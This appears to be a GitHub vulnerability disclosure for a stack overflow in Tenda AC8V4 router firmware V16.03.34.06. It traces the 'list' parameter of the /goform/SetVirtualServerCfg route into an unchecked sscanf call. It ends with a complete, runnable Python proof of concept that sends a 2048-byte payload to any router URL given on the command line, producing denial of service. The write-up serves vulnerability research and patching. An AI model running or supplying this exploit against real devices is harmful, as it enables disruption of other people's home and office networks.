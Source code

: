 # Tenda_AC8V4 stack overflow vulnerability

## Affected version:

```
US_AC8V4.0si_V16.03.34.06
```

To download the firmware: https://www.tenda.com.cn/download/detail-3518.html

## Description

In the firmware of Tenda AC8V4 V16.03.34.06, the route /goform/SetVirtualServerCfg can cause a stack overflow, thereby achieving a denial of service attack



The "list" parameter is passed to Var through websGetVar, and then entered into the `save_virtualser_data` function as the second parameter
![image](https://github.com/Xunflash/IOT/assets/71567536/ba9a1e7f-de40-4edc-8a08-88af3d6f99b5)
a2 is assigned to v5
![image](https://github.com/Xunflash/IOT/assets/71567536/68bf1726-a944-4b78-8607-2b52393439ad)
Then the program uses the dangerous function sscanf to format v5 and pass it into v12, v13, v14, v15
![image](https://github.com/Xunflash/IOT/assets/71567536/82b71b65-fdce-404a-bbfe-66c0ff74e389)

![image](https://github.com/Xunflash/IOT/assets/71567536/dd4dc87a-6be4-47b7-995c-e7d6f66dabc8)

## Poc&&Exp

```
import argparse
import requests
requests.packages.urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url")
args = parser.parse_args()
host = args.url
cyclic = b"a"*2048    

def exploit(host):
    url = f"http://{host}/goform/SetVirtualServerCfg"
    data = {
        b'list':cyclic
    }
    res = requests.post(url=url,data=data)
    

if __name__ == "__main__":
    if args.url:
        try:
            exploit(args.url)
            print("[+] Exploit finished!")
        except Exception as e:
            print("[-]", e)
            print("[-] Exploit finished!")
    else:
        print("[*] Use -h get help info.")
```



![image](https://github.com/Xunflash/IOT/assets/71567536/0cfe1747-fcc1-46b3-becc-04343465f8c0)
